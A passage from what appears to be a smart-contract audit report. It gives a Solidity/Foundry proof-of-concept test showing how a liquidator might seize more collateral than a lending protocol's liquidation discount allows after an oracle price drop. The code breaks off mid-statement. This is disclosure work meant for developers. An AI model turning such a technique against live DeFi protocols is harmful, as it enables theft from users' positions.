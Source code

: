 ## Proof Of Concept
Please add the following test to `/protocol-v2/test/integration/LiquidationTest.t.sol` and run it with `forge test --match-test 'test_seizeMoreAssetsThanAllowed'`.
```solidity
function test_seizeMoreAssetsThanAllowed() public {
    asset2.mint(user, 200e18);
    vm.startPrank(user);
    asset2.approve(address(positionManager), 200e18);
    // deposit 200e18 asset2, borrow 100e18 asset1
    Action[] memory actions = new Action[](4);
    (position, actions[0]) = newPosition(
        user,
        bytes32(uint256(0x123456789))
    );
    actions[1] = deposit(address(asset2), 200e18);
    actions[2] = addToken(address(asset2));
    actions[3] = borrow(fixedRatePool, 100e18);
    positionManager.processBatch(position, actions);
    vm.stopPrank();
    assertTrue(riskEngine.isPositionHealthy(position));
    (
        uint256 totalAssetValue,
        uint256 totalDebtValue,
        uint256 minReqAssetValue
    ) = riskEngine.getRiskData(position);
    assertEq(totalAssetValue, 200e18);
    assertEq(totalDebtValue, 100e18);
    assertEq(minReqAssetValue, 200e18);
    // modify asset2 price from 1eth to 0.9eth
    FixedPriceOracle pointOneEthOracle = new FixedPriceOracle(0.9e18);
    vm.prank(protocolOwner);
    riskEngine.setOracle(address(asset2), address(pointOneEthOracle));
    assertFalse(riskEngine.isPositionHealthy(position));
    (totalAssetValue, totalDebtValue, minReqAssetValue) = riskEngine
        .getRiskData(position);
    assertEq(totalAssetValue, 180e18);
    assertEq(totalDebtValue, 100e18);
    assertEq(minReqAssetValue, 200e18);
    // liqudation discount = 0.2e18
    // when liquidating full debt, the max seized asset value is as follows:
    // maxSeizedAssetValue = 100e18 * 1e18 / (1e18 - 0.2e18) = 125e18
    // construct liquidator data
    DebtData memory debtData = DebtData({
        poolId: fixedRatePool,
        amt: type(uint256).max
    });
    DebtData[] memory debts = new DebtData[](1);
    debts[0] = debtData;
    AssetData memory asset2Data = AssetData({
        asset: address(asset2),
        amt: 200e18
    });
    AssetData[] memory assets = new AssetData[](1);
    assets[0] = asset2Data;
    asset1.mint(liquidator, 100e18);
    vm.startPrank(liquidator);
    asset1.approve(address(positionManager), 100e18);
    // Trying to seize All of the asset2 reverts as maxSeizedAssetValue is only 125 ETH, while 200 * 0.9 is 180 ETH
    vm.expectRevert(
        abi.encodeWithSelector(
            RiskModule.RiskModule_SeizedTooMuch.selector,
            // assets seized value
```